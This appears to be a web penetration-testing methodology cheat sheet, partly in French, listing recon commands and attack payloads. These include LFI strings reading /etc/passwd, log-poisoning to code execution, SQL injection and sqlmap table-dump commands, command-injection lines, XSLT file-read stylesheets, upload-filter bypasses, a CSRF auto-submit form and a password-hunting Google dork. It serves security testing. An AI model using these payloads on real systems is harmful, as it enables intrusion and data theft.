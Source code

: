 # Tools
- Javascript deobfuscator/beautifier
- cURL (client http en CLI)
- Burp Suit (HTTP proxy, scanner) + extensions CEO (SQLmap) et JSON web token attacker (JOSEPH)
- dirb/wfuzz (website directory discover)
- SecLists (https://github.com/danielmiessler/SecLists)

# Methodology
## OSINT/Recon 
- **ping**  
	`$ ping www.site.com`  
- **whois**  
	`$ whois 'www.site.com'`  
	`$ whois <ip>`  
- **google dorks**  
	Search for credentials : `"intext:<thetarget> AND intext:@gmail.com AND intext:password"`   
	Tools : FastGoogleDorks, theharvester      
- **DNS**  
	DNS records :  
	`$ dig domain.com ANY`  
	`PS> nslookup -q=TXT domain.com`  
	AXFR zone  transfert 
- **VHOSTS** : HTTP "Host" header modification or "/etc/hosts" file modification to access potential VHOST  
- **Subdomains enumeration**  
	`$ amass enum -passive -d domain.com -src`  
- **Network scan**
	`$ nmap -p- sV site.com // -A version detection -oA fichier_out`    

## Client source code
- **Information** : CMS version ; file disclosure(.js files) ; unsafe cross-domain include

## Server config
Information gathering & vuln identifier: 
https://github.com/codingo/Reconnoitre 

### URL: 
- **Unprotected references/directory listing** : dirb+wfuzz w/ SecLists (raft-medium-files.txt & raft-large-files.txt) (unprotected refs such as /admin/, robots.txt, sitemap.xml, etc.)  
- **Backup files** : /dev/, index.php~, /.git/, index.php.bak, index.php.old, .phps, .swp, etc.
- **Full Path Disclosure** [/index.php?file[]=1   (array include bug 'can't include an array'), https://www.owasp.org/index.php/Full_Path_Disclosure]
- **Redirections** : $ curl -v 

### REQUESTS:
- Test all headers 
- Test all methods (TRACE, PUT, DELETE, OPTIONS)
- Verb tampering (.htacces -> request w/ custom method $ curl -X YOLO)

- Fonctions PHP dangereuses, evaluation de code (preg_replace()+e modifier, assert(), include()...)
- PHP type juggling (loose comparison, strcmp(array()), magic hashes)
- Packages vulnerables ex:phpbb [www.exemple.com/phpbb/install/...]

## Authentication

- Authentication (Cookies, JWT, etc...)
[JWT attacks : Burp Extension : None algorithm header change, signature algorithm bypass, bruteforce]
- Cloisonnement users ? privesc ? lateral move ? -> Burp AuthMatrix
- CSRF ? [is the auth cookie-based ? is there an unpredictable element checked on the server-side for each request ?]

## Injections & inputs sanitizing

### SERVER SIDE:
- Check PayloadAllTheThings ( https://github.com/swisskyrepo/PayloadsAllTheThings )
**File inclusion**  
LFI [?f=../../etc/passwd, wrappers(voir PDF wrappers-filters): ?inc=php://filter/read=convert.base64-encode/resource=, ]
 + double encoding
 LFI to RCE : try PHP code injection from Apache logs : Request GET /<?php phpinfo(); ?> then include the /var/log/apache2/access.log file
 CHECK LFI TO RCE PayloadAllTheThings
 RFI : base64, view_source()...
test : passer des arrays en arguments, certaines fonctions PHP plantent (ex strcmp(), include(), etc.)
 Ã‰chappement : CRLF[%0A], NULL BYTE[%00], Php truncation [a/../admin.html/./.[x4096]././././] 
 
**Path traversal**  
[DotDotPwn]

**SQL injection**  
[authentification(classic,gbk=å‘µ' or 1=1 #, \xbf\x27), string(identify columns number with ' UNION SELECT NULL,NULL,NULL, numÃ©rique, SQLmap]
SQLi method : 
	If format like "id=1" -> integer-based injection
	If format like "username=toto" -> string-based injection

	1 - Target the field of the request
	2 - Find if it is string-based or integer-based
	3 - Try to trigger an error
	4 - Try to fallback on the default payload by modifying it 

[sqlmap -u "http://testsite.com/login.php" --dbs]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db --tables]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db -T users --dump] 
order by : nombre de colonnes
Error based : convert(), file_name()...

**Command injection**  
[original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
Command execution inside a command :
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)]

**XPATH injection**   


**Template injection**  
${2*2} (server-side,voir PDF)

**LDAP injection**  
(&(uid=*))(userPassword=*)(&))

**XSLT code execution**  
exemple :  
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">  
<xsl:template match="/">  
<xsl:value-of select="php:function('file_get_contents','index.php')"/>  
<xsl:value-of select="php:function('opendir','/directory/')"/>  
<xsl:value-of select="php:function('chdir','/directory/')"/>  
<xsl:value-of select="php:function('readdir')"/>  
</xsl:template>  
</xsl:stylesheet>  


**XXE (XML External Entity)**  
exemple dans un flux rss :   
TODO 

**GraphQL injection**  
- query={__schema{types{name,fields{name}}}} to enumerate 

**FILE UPLOAD**  
- Send an EICAR file (for audits)
- PUT method
- Double extension [.php.jpg]
- Type MIME modification : change Content-Type : "application/x-php" to "image/gif", "image/png", "image/jpeg"
- Null byte  
.php%00.jpg
.php\x00.jpg
- Magic bytes file signature(ex : add GIF89a in the beginning of the file for .gif)
- zip + lien symbolique (zip --symlinks test.zip lien, avec ln -s /etc/passwd lien)

### CLIENT SIDE:
**XSS**  
[document.write(unescape()), document.write(String.fromCharCode(unicode))]

**CSRF**  
3 regles :
1. L'attaquant a une raison de provoquer l'atq
2. Authentification repose uniquement sur des cookies de session
3. Pas d'element impredictible dans la requete
-> Generate CSRF PoC Burp
exemple de form : ( <form name="test" method="post"
action="http://sitevuln.fr/profiles/?action=profile">
<input type="checkbox" name="admin" checked >
</form>
<script>document.test.submit()</script>)


## Encryption protocols & ciphers
- testssl.sh : weak ciphersuites/protocols ?

## NETWORK =

- Transfert de zone DNS si misconfig [dig @SERVEURDNS -p *port* AXFR *domaine*]
- LDAP null bind [ldapsearch -x -h *le.server.ldap* -p *port* -s base -b '' "(objectClass=*)" "*" +]

# Exploitation

- Reverse shell : pentestmonkey php reverse shell
